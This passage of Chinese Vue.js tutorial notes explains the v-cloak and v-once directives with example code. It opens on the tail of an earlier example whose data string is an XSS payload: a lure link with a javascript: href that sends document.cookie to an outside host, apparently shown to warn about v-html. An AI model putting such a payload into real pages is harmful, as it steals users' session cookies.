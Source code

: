 ```vue
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```

***

### v-cloak

v-cloak指令（没有值）：
       1.本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
       2.使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

```vue
<body>
    <div id="root">
        <h2 v-cloak>{{name}}</h2>
    </div>
    <script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
</body>

<script type="text/javascript">
    new Vue({
        el:'#root',
        data:{
            name:'尚硅谷'
        }
    })
</script>
```

***

### v-once

v-once指令：
          1.v-once所在节点在初次动态渲染后，就视为静态内容了。
          2.以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

```vue
<body>
    <!-- 准备好一个容器-->
    <div id="root">
        <h2 v-once>初始化的n值是:{{n}}</h2>
        <h2>当前的n值是:{{n}}</h2>
        <button @click="n++">点我n+1</button>
    </div>
</body>
<script type="text/javascript">
    new Vue({
        el:'#root',
        data:{
            n:1
        }
    })
</script>
```
